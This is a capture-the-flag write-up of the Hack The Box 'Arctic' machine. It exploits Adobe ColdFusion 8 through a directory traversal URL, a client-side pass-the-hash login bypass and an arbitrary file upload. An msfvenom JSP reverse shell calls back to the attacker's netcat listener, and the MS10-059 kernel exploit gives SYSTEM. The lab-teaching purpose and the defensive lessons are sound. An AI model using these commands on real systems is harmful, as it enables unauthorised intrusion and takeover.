








# Arctic Writeup w/o Metasploit


## Reconnaissance <a id="d61b"></a>

First thing first, we run a quick initial nmap scan to see which ports are open and which services are running on these ports.

```text
nmap -sC -sV -O -oA htb/arctic/nmap/initial 10.10.10.11
```

* **-sC**: run default nmap scripts
* **-sV**: detect service version
* **-O**: detect OS
* **-oA**: output all formats and store in file _nmap/initial_

We get back the following result showing that three port is open:

* **Ports 135 & 49154:** running Microsoft Windows RPC.
* **Port 8500**: possibly running Flight Message Transfer Protocol \(FMTP\).



Before we start investigating these ports, let’s run more comprehensive nmap scans in the background to make sure we cover all bases.

Let’s run an nmap scan that covers all ports.

```text
nmap -sC -sV -O -p- -oA htb/arctic/nmap/full 10.10.10.11
```

We get back the following result. No other ports are open.


Similarly, we run an nmap scan with the **-sU** flag enabled to run a UDP scan.

```text
nmap -sU -O -p- -oA htb/arctic/nmap/udp 10.10.10.11
```

We get back the following result.


## Enumeration <a id="fd90"></a>

Let’s do some more enumeration on port 8500. Visit the URL in the browser.


It takes about 30 seconds to perform every request! So we’ll try and see if we could perform our enumeration manually before we resort to automated tools.

When you visit the _cfdocs/_ directory, you’ll find an _administrator/_ directory.



When you click on the _administrator/_ directory, you’re presented with an admin login page.



Default/common credentials didn’t work and a password cracker would take an unbelievably long time \(30s per request\), so we’ll have to see if the application itself is vulnerable to any exploits.

The login page does tell us that it’s using Adobe ColdFusion 8, which is a web development application platform. We’ll use the platform name to see if it contains any vulnerabilities.

```text
searchsploit -update # update databasesearchsploit --id adobe coldfusion
```

* _id_: Display the EDB-ID value rather than local path

The application is using version 8, so we only care about exploits relevant to this specific version.



After reviewing the exploits, two of them stand out:

1. 14641 — Directory Traversal. We’ll use that to get the password of the administrator.
2. 45979 — Arbitrary file Upload. We’ll use that to get a reverse shell on the target machine.

## Gaining an Initial Foothold <a id="33df"></a>

Let’s look at the code for exploit 14641.


We don’t actually have to run the exploit file. Instead, we could just navigate to the above URL to display the content of the password.properties file.

```text
http://10.10.10.11:8500/CFIDE/administrator/enter.cfm?locale=../../../../../../../../../../ColdFusion8/lib/password.properties%00en
```

The password is outputted to the screen!



The password seems to be hashed, so we can’t simply use it in the password field. We can try to crack it, but first let’s see if there are any other vulnerabilities present in the way the application handles passwords on the client side.

Right click on the page and select _View Page Source_. There, we find three pieces of important information on the steps taken to send the password to the backend.

1. The password is taken from the password field and hashed using SHA1. This is done on the client side.
2. Then the hashed password is HMAC-ed using a salt value taken from the parameter salt field. This is also done on the client side.
3. The HMAC-ed password gets sent to the server with the salt value. There, I’m assuming the server verifies that the hashed password was HMAC-ed with the correct salt value.

```text
<form name="loginform" action="/CFIDE/administrator/enter.cfm" method="POST" onSubmit="cfadminPassword.value = hex_hmac_sha1(salt.value, hex_sha1(cfadminPassword.value));" >
```

The directory traversal vulnerability did not give us the plaintext password but instead gave us an already hashed password.

```text
2F635F6D20E3FDE0C53075A84B68FB07DCEC9B03
```

Therefore, instead of cracking the password \(which can take a long time!\) we can calculate the cfadminPassword.value and use an intercepting proxy to bypass the client side calculation.

To quickly calculate the cfadminPassword value use the Console in your browser Developer Tools to run the following JS code.

```text
console.log(hex_hmac_sha1(document.loginform.salt.value, '2F635F6D20E3FDE0C53075A84B68FB07DCEC9B03'));
```

What that does is cryptographically hash the hashed password we found with the salt value. This is equivalent to what the form does when you hit the login button.

Therefore, to conduct the attack use the above JS code to calculate the HMAC of the password.


Then set the Intercept to On in Burp and on the login page submit any random value in the password field and hit login.

Intercept the request with Burp and change the cfadminPassword field to the value we got in the console and forward the request.


This allows us to login as administrator without knowing the administrator password! This attack can be referred to as passing the hash.

What we essentially did over here is bypass any client side scripts that hash and then HMAC the password and instead, did it by ourselves and sent the request directly to the server. If you had the original plaintext \(not hashed\) password, you wouldn’t have to go through all this trouble.

To make matters even worse, you need to perform the above steps in the short window of 30 seconds! The application seems to reload every 30 seconds and with every reload a new salt value is used. Now, you might ask “why not just get the original salt value and when I intercept the request in Burp, change the salt value to the one I used in the JS code? This way I wouldn’t have to abide by the 30 second rule”. Great question! I had this idea as well, only to find out that the salt value is coming from the server side and seems to also be updated and saved on the server side. So, if you use a previous salt or your own made up salt, the application will reject it!

**Uploading a Reverse Shell**

Now that we successfully exploited the directory traversal vulnerability to gain access to the admin console, let’s try to exploit the arbitrary file upload vulnerability to upload a reverse shell on the server.

The exploit 45979 does not pan out. The directories listed in the exploit do not match the specific version of ColdFusion that is being used here. Arrexel did write an [exploit](https://forum.hackthebox.eu/discussion/116/python-coldfusion-8-0-1-arbitrary-file-upload) that would work and was written specifically for this box. So it is technically cheating, but I have already spent enough time on this box, so I’m going to use it!

**Note**: The arbitrary file exploit does not require you to authenticate, so technically you don’t need to exploit the directory traversal vulnerability beforehand, unless you plan on using the GUI.

It is worth noting that in the Administrator GUI, there is a Debugging & Logging &gt; Scheduled Tasks category that would allow us to upload files.



Instead, I’m going to use arrexal’s exploit.

First, generate a JSP reverse shell that will be run and served by the server.

```text
msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.6 LPORT=4444 > shell.jsp
```

Next, run arrexal’s exploit.

```text
python arb-file-exploit.py 10.10.10.11 8500 shell.jsp
```

The exploit tells us where the exploit file was saved.


Next, start up a listener on the attack machine.

```text
nc -nlvp 4444
```

Then visit the location of the exploit in the browser to run the shell.jsp file.

```text
http://10.10.10.11:8500/userfiles/file/exploit.jsp
```

We have a shell!


Grab the user flag.


This is a non-privileged shell, so we’ll have to find a way to escalate privileges.

## Privilege Escalation <a id="48ca"></a>

Let’s find out more about the system.



It’s running Microsoft Windows 2008 and has not had any updates!

Copy the output of the systeminfo command and save it in a file. We’ll use Windows Exploit Suggester to identify any missing patches that could potentially allow us to escalate privileges.

First update the database.

```text
./windows-exploit-suggester.py --update
```

Then run the exploit suggester.

```text
./windows-exploit-suggester.py --database 2019-10-12-mssb.xls --systeminfo /root/Desktop/htb/arctic/systeminfo.txt
```



We have 3 non-Metasploit exploits. I tried MS11–011 but I didn’t get a privileged shell. MS10–059 did work! I found an already compiled executable for it [here](https://github.com/egre55/windows-kernel-exploits/tree/master/MS10-059:%20Chimichurri/Compiled).

**Disclaimer**: You really should not use files that you don’t compile yourself, especially if they open up a reverse shell to your machine. Although I’m using this precompiled exploit, I don’t vouch for it.

I’ll transfer the file using arrexal’s exploit by simply changing the req parameter from

```text
...CurrentFolder=/exploit.jsp
```

to

```text
...CurrentFolder=/exploit.exe
```

Run the exploit in the same way and it uploads the exploit to the following directory on the target machine.

```text
cd C:\ColdFusion8\wwwroot\userfiles\file
```


Start up another listener on the attack machine.

```text
nc -nlvp 6666
```

Run the exploit.

```text
exploit.exe 10.10.14.6 6666
```

We have system!


Grab the root flag.


## Lessons Learned <a id="0a4b"></a>

What allowed me to gain initial access to the machine and escalate privileges, is exploiting known vulnerabilities that had patches available. So it goes without saying, you should always update your software!

The second thing worth mentioning is the way the application handled passwords. The password was first hashed using SHA1 and then cryptographically hashed using HMAC with a salt value as the key. All this was done on the client side! What does client side mean? The client has access to all of it \(and can bypass all of it\)! I was able to access the administrator account without knowing the plaintext password.

Hashing passwords is a common approach to storing passwords securely. If an application gets hacked, the attacker should have to go through the trouble of cracking the hashed passwords before getting access to any user credentials. However, if hashing is being done on the client side as apposed to the server side, that would be equivalent to storing passwords in plaintext! As an attacker, I can bypass client side controls and use your hash to authenticate to your account. Therefore, in this case, if I get access to the password file I don’t need to run a password cracker. Instead, I can simply pass the hash.

